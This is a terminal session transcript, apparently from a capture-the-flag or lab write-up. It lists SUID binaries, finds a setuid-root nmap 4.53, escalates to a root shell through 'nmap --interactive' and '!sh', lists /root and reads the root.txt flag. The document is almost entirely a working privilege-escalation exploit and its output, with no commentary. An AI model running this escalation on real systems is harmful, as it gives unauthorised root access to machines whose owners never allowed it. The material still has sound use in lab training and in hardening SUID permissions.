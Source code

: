 ````
/usr/sbin/pppd
/usr/lib/telnetlogin
/usr/lib/apache2/suexec
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/pt_chown


$ ls -al /usr/bin/nmap
-rwsr-xr-x 1 root root 780676 Apr  8  2008 /usr/bin/nmap


$ /usr/bin/nmap --interactive

Starting Nmap V. 4.53 ( http://insecure.org )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
whoami
root
pwd
/tmp

cd /root

ls -al
total 80
drwxr-xr-x 13 root root 4096 Feb 10 13:46 .
drwxr-xr-x 21 root root 4096 May 20  2012 ..
-rw-------  1 root root  373 Feb 10 13:46 .Xauthority
lrwxrwxrwx  1 root root    9 May 14  2012 .bash_history -> /dev/null
-rw-r--r--  1 root root 2227 Oct 20  2007 .bashrc
drwx------  3 root root 4096 May 20  2012 .config
drwx------  2 root root 4096 May 20  2012 .filezilla
drwxr-xr-x  5 root root 4096 Feb 10 13:46 .fluxbox
drwx------  2 root root 4096 May 20  2012 .gconf
drwx------  2 root root 4096 May 20  2012 .gconfd
drwxr-xr-x  2 root root 4096 May 20  2012 .gstreamer-0.10
drwx------  4 root root 4096 May 20  2012 .mozilla
-rw-r--r--  1 root root  141 Oct 20  2007 .profile
drwx------  5 root root 4096 May 20  2012 .purple
-rwx------  1 root root    4 May 20  2012 .rhosts
drwxr-xr-x  2 root root 4096 May 20  2012 .ssh
drwx------  2 root root 4096 Feb 10 13:46 .vnc
drwxr-xr-x  2 root root 4096 May 20  2012 Desktop
-rwx------  1 root root  401 May 20  2012 reset_logs.sh
-rw-------  1 root root   33 Mar 14  2017 root.txt
-rw-r--r--  1 root root  118 Feb 10 13:46 vnc.log



cat root.txt
92caac3be140ef409e45721348a4e9df

````
